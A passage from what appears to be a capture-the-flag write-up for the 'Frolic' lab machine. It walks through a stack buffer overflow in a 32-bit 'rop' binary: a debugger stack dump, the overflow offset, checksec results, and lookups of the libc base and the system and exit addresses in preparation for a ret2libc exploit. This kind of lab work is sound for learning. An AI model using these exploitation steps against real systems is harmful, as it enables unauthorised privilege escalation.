 ```bash
stack ────
0xffffcaf0│+0x0000: "c0d3"       ← $esp
0xffffcaf4│+0x0004: 0xf7fbf600  →  0x00000000
0xffffcaf8│+0x0008: 0xf7fbfb00  →  0xf7c1ac8a  →  "GLIBC_PRIVATE"
0xffffcafc│+0x000c: 0x00000001
0xffffcb00│+0x0010: 0xffffcb20  →  0x00000002
0xffffcb04│+0x0014: 0xf7e20ff4  →  0x00220d8c
0xffffcb08│+0x0018: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffcb0c│+0x001c: 0xf7c213b5  →   add esp, 0x10

code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x64613364
```

I try again with 52 characters in front, and `d3adc0d3` after. It sets `eip` as `d3ad` and `esp` as `c0de`. Before I make an exploit, I check anything to see if I need to take an account for.

```bash
gef➤  checksec
[+] checksec for '/home/ghost/Documents/hacking/tj-null-boxes/frolic/rop'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

### Making an exploit

First check the `libc` address, and the system architecture.

```bash
www-data@frolic:/home/ayush/.binary$ uname -a
Linux frolic 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 i686 i686 GNU/Linux

www-data@frolic:/home/ayush/.binary$ ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

The libc address is `0xb7e19000`. Then I need to get the location of `system` and `exit`.

```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

The system address is `0x0003ada0`.

```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
```
